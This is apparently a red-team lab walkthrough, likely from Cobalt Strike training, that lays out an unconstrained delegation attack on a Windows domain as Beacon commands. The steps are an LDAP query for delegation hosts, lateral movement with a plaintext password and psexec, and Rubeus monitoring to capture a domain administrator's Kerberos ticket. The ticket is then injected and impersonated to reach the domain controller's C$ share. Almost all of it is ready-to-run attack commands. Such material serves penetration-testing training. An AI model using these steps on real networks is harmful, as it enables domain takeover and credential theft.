 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb

-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0

-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]